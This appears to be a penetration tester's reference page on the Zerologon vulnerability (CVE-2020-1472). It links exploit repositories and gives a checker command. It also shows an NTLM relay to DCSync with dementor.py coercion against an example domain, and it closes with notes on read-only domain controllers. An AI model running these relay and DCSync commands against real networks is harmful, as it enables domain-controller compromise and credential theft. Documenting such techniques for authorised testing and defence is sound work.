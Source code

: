 ```yaml
---
description: CVE-2020-1472
---
```


# Zerologon

* [https://www.secura.com/uploads/whitepapers/Zerologon.pdf](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
* [https://twitter.com/\_dirkjan/status/1306280566313156608](https://twitter.com/_dirkjan/status/1306280566313156608)

{% file src="https://dl.packetstormsecurity.net/papers/general/Understanding_and_Exploiting_Zerologon.pdf" %}

Check:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

```
$ python3 zerologon_tester.py DC01 10.10.13.38
```

Exploit:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)

Exploits above **will break the domain!** Use this technique by @dirkjanm to abuse Zerologon safely:

* [https://dirkjanm.io/a-different-way-of-abusing-zerologon/](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

```
$ sudo ntlmrelayx.py -t dcsync://DC01.megacorp.local -smb2support
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC02.megacorp.local
```




## RODC Notes

Checking that a DC is a RODC (see if `WRITABLE` flag is present):

```
PS > nltest.exe /dsgetdc:megacorp.local
PS > nltest.exe /dsgetdc:megacorp.local /server:DC1
```

* [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9)
* [https://lists.samba.org/archive/samba-technical/2016-November/117016.html](https://lists.samba.org/archive/samba-technical/2016-November/117016.html)
* [https://github.com/gentilkiwi/mimikatz/blob/fe4e98405589e96ed6de5e05ce3c872f8108c0a0/mimikatz/modules/kuhl_m_lsadump.c#L2467](https://github.com/gentilkiwi/mimikatz/blob/fe4e98405589e96ed6de5e05ce3c872f8108c0a0/mimikatz/modules/kuhl_m_lsadump.c#L2467)
* [https://social.technet.microsoft.com/Forums/Lync/en-US/3f29f03e-9d9b-43ba-b628-3f0afc25352e/user-amp-computer-authentication-through-rodc?forum=winserverDS](https://social.technet.microsoft.com/Forums/Lync/en-US/3f29f03e-9d9b-43ba-b628-3f0afc25352e/user-amp-computer-authentication-through-rodc?forum=winserverDS)

> "When a user authenticates to an RODC a check is performed to see if the password is cached. If the password is cached, the RODC will authenticate the user account locally. If the user’s password is not cached, then the RODC forwards the authentication request to a writable Domain Controller which in turn authenticates the account and passes the authenticated request back to the RODC. Once the user account is authenticated, the RODC makes another request for the replication of the user’s password in a unidirectional replication providing the account has been configured to allow replication. In order to allow the user password to be cached on RODC, you could set up it by configuring the Password Replication Policy."

So when authenticating at a RODC and Password Replication Policy rejects caching the machine password, then `STATUS_NO_TRUST_SAM_ACCOUNT` may be met.
